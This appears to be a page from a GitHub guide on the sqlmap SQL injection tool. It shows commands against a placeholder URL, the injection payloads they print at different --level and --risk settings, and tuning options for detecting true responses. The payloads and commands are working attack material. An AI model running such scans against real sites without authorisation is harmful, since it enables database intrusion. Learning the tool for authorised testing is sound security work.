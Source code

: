 ### Example:
```bash
sqlmap -u www.example.com/?id=1 -v 3 --level=5
```

### Output:
```bash
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
```

With default `--level` and `--risk` values, fewer boundaries and payloads are tested:

```bash
sqlmap -u www.example.com/?id=1 -v 3
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
```

### Comparison of Payloads:

Default settings:
```bash
sqlmap -u www.example.com/?id=1
[INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
```

With `--level=5` and `--risk=3`:
```bash
sqlmap -u www.example.com/?id=1 --level=5 --risk=3
[INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
```

By default, up to 72 payloads are tested per parameter. With `--level=5` and `--risk=3`, this increases to over 7,800 payloads.

---

## Advanced Tuning

### Status Codes
Use `--code=<status>` to target HTTP responses with specific status codes (e.g., `200` for TRUE responses).

### Titles
Use `--titles` to compare HTML `<title>` tags for differences between responses.

### Strings
Use `--string=<value>` to focus on specific strings present in TRUE responses.
